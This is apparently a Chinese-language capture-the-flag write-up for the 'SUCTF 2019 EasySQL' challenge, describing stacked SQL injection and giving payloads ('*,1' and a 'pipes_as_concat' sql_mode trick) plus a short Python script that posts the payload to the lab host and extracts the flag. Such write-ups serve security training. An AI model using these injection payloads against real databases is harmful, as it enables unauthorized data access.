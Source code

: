 # 分析

来自[[SUCTF 2019]EasySQL](https://buuoj.cn/challenges#[SUCTF%202019]EasySQL)

页面功能是一个查询框，应该是sql注入，判断注入类型，使用万能密码不行，尝试联合注入，发现只有堆叠注入可行

![image-20240625204339652](image/image-20240625204339652.png)

发现Flag查询不了，也存在过滤

![image-20240625205807086](image/image-20240625205807086.png)

看了大佬的wp才知道，payload=`*,1`或者`1;set sql_mode=pipes_as_concat;select 1`，只能说很难想到

![image-20240625204740043](image/image-20240625204740043.png)

# exp

```python
import requests
import re

url = "http://c27eb3b8-f825-4660-bfed-b926df07f617.node5.buuoj.cn:81"
data={
  'query':'*,1'
}
res = requests.post(url, data=data)

if res.status_code == 200:
    res_text = res.text
    # 打印响应内容（可选）
    #print("Response:", response_text)
    # 使用正则表达式查找 flag
    flag_pattern = "flag\{.*?\}"
    flag_match = re.search(flag_pattern, res_text)
    if flag_match:
        flag = flag_match.group(0)
        print(f"flag found -->>{flag}")
    else:
        print("flag not found.")
else:
    print("Request failed.")
```


